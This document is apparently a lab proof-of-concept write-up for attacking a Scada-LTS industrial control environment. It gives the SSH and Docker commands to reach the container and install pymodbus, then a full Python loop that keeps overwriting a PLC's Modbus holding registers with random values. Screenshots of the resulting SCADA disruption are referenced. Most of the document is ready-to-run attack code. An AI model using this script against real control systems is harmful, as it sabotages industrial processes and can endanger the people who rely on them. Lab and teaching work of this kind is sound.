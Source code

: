 # Change modbus registers Proof of concept vulnerability

If the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

- End result
The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

![](img/random_modbus.png)

Figure 1: Modbus registers changing address non stop.

![](img/scada_poc1.jpg)

Figure 2: Scada enviroment visibily showing values that are not inlign with its use case.

![](img/scada_poc2.jpg)

Figure 3: In scada the values are now also seen to be changing in the dataresources tab.

